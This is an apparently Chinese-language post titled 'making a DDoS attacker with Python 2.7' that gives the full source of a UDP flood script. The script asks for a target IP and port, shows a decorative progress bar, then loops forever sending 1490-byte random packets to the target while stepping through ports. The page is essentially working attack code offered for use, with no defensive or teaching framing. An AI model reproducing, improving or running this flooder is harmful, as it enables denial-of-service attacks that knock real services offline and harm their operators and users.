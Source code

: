 ### 使用Python2.7制作DDOS攻击器

主要代码：

> sock.sendto(bytes, (ip,port))

源代码：

'''
import sys

import os

import time

import socket

import random

#Code Time

from datetime import datetime

now = datetime.now()

hour = now.hour

minute = now.minute

day = now.day

month = now.month

year = now.year


##############

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

bytes = random._urandom(1490)

#############

os.system("clear")

os.system("figlet DDos Attack")



ip = raw_input("IP Target : ")

port = input("Port       : ")

os.system("clear")

os.system("figlet Attack Starting")

print "[                    ] 0% "

time.sleep(1)

print "[=====               ] 25%"

time.sleep(1)

print "[==========          ] 50%"

time.sleep(1)

print "[===============     ] 75%"

time.sleep(1)

print "[====================] 100%"

time.sleep(1)

sent = 0

while True:

     sock.sendto(bytes, (ip,port))
     
     sent = sent + 1
     
     port = port + 1
     
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     
     if port == 65534:
     
       port = 1
'''
